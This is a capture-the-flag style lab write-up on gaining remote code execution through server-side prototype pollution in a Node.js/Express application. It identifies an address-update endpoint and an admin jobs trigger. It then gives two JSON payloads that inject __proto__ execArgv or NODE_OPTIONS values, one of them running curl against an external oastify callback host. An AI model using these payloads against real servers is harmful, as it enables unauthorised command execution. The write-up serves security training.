

# Remote code execution via server-side prototype pollution
# Objective
This lab is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object. Due to the configuration of the server, it's possible to pollute `Object.prototype` in such a way that you can inject arbitrary system commands that are subsequently executed on the server.

To solve the lab:

1. Find a prototype pollution source that you can use to add arbitrary properties to the global `Object.prototype`.
2. Identify a gadget that you can use to inject and execute arbitrary system commands.
3. Trigger remote execution of a command that deletes the file `/home/carlos/morale.txt`.

In this lab, you already have escalated privileges, giving you access to admin functionality. You can log in to your own account with the following credentials: `wiener:peter`

# Solution
## Analysis
Endpoint `/my-account/change-address` allows given user to specify his billing and delivery address.
Endpoint `/admin/jobs` allows to run maintanence job.

||
|:--:|
| *Change billing and delivery address information request* |
||
| *Admin panel - run maintenance jobs* |
||
| *Admin panel - maintenance jobs results* |

## Exploitation
Attacker can achieve remote code execution by polluting (modifying) `execArgv` value. Triggering `Run Maintenance Jobs` spawns node child processes, which allows to trigger attacker provided command. 

||
|:--:| 
| *Standard request and raw response* |
||
| *Prototype pollution detection - JSON in response is indented 10 spaces* |

To verify RCE attacker can use the following out-of-band payload:
```json
{
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "UK",
  "sessionId": "kCjga9ORObuFOxUgocBN49RAu39WdCAr",
  "__proto__": {
    "execArgv": [
      "--eval=require('child_process').execSync('curl https://<id>.oastify.com')"
    ]
  }
}
```
or:
```json
{
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "UK",
  "sessionId": "kCjga9ORObuFOxUgocBN49RAu39WdCAr",
  "__proto__": {
    "argv0": "node",
    "shell": "node",
    "NODE_OPTIONS": "--inspect=<id>\"\".oastify\"\".com"
  }
}
```

||
|:--:| 
| *Prototype pollution - Preparing command to be executed* |
||
| *Triggering payload* |

